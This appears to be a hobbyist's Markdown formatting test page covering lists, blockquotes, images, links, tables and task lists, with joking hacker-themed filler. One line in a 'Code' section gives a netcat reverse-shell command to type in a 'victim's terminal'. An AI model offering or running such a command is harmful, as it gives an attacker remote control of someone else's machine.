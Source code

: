 
# A landing will be here...

## *But for now this page will be used for testing*

This is just a test paragraph. I will make this file incredibly long, just for the hell of it.
The paragraph is a oneliner, however, if I add <br/> It will be 2. And the best practice for
bold text is **This one**. Also, for the demo, I'll add *italic* too.

> Blockquotes are something I have no idea about. <br/> But I guess
> there is no harm in randomly inserting this stuff everywhere I can?
> > ***And the nested one***
> > <br/>
> > So weird, but looks fine
>
> Doesn't it?

### Lists

#### Ordered:

1. First item
2. Second item

I need to add another paragraph below the second list ite

3. Third item
   1. Third item 1
   2. Third item 2

#### Unordered:

- First item 
- Second item 

> A blockquote would look great below the second list item.

- Third item 
  - Third item 1 
  - Third item 2
- 1968\. Unordered list with number!


### Code

Okay, open the file and find this:

    <html>
              <head>
                <title>Test</title>
              </head>
    </html>

Awesome? Yes.

***

### Images

Let's move on to some serious cyber-security stuff. Look! An image of serious hacker:

![Hacker](https://avatars.githubusercontent.com/u/107276306?v=4)

Has it rendered?

##### Linking Images

To add a link to an image, enclose the Markdown for the image in brackets, and then add the link in parentheses.

[![An old rock in the desert](https://mdg.imgix.net/assets/images/shiprock.jpg "Shiprock, New Mexico by Beau Rogers")](https://www.flickr.com/photos/beaurogers/31833779864/in/photolist-Qv3rFw-34mt9F-a9Cmfy-5Ha3Zi-9msKdv-o3hgjr-hWpUte-4WMsJ1-KUQ8N-deshUb-vssBD-6CQci6-8AFCiD-zsJWT-nNfsgB-dPDwZJ-bn9JGn-5HtSXY-6CUhAL-a4UTXB-ugPum-KUPSo-fBLNm-6CUmpy-4WMsc9-8a7D3T-83KJev-6CQ2bK-nNusHJ-a78rQH-nw3NvT-7aq2qf-8wwBso-3nNceh-ugSKP-4mh4kh-bbeeqH-a7biME-q3PtTf-brFpgb-cg38zw-bXMZc-nJPELD-f58Lmo-bXMYG-bz8AAi-bxNtNT-bXMYi-bXMY6-bXMYv)


---

### Code

To spawn a reverse netcat shell, type `nc -e /bin/bash $IP $PORT` in victim's terminal

### Links

My favorite search engine is [Duck Duck Go](https://duckduckgo.com).

My favorite search engine with title is [Duck Duck Go](https://duckduckgo.com "The best search engine for privacy").

To quickly turn a URL or email address into a link, enclose it in angle brackets.

<https://www.markdownguide.org>

I love supporting the **[EFF](https://eff.org)**.
This is the *[Markdown Guide](https://www.markdownguide.org)*.
See the section on [`code`](#code).

##### Formatting links!

[hobbit-hole][1]

[1]: https://en.wikipedia.org/wiki/Hobbit#Lifestyle 'Hobbit lifestyles'

## Escaping --reality-- characters

\* Without the backslash, this would be a bullet in an unordered list.

# HTML

Many Markdown applications allow you to use HTML tags in Markdown-formatted text. This is helpful if you prefer certain HTML tags to Markdown syntax. For example, some people find it easier to use HTML tags for images. Using HTML is also helpful when you need to change the attributes of an element, like specifying the color of text or changing the width of an image.

To use HTML, place the tags in the text of your Markdown-formatted file.

This **word** is bold. This <em>word</em> is italic.

# Table

Rendered?

| A1       | A2       | Hello      | Pwn           | C2 goes brrr   |
|----------|----------|------------|---------------|----------------|
| 1        | 2        | 3          | blaldwbefwenf | Rere Hehe pepe |
| WannaCry | WannaDie | Wanna Hugs | -             | weff           |
|          |          |            |               |                |
| wefwef   | 53253563 | 34ve       | 22 3e\#       | 3r34r          |

# Formula

&radic;x&sup2; + &sum;x


# GMF Stuff

~Strikethrough~	
- [ ] List item unchecked

- [x] List item checked

-[ ] List item unchecked

-[x] List item checked
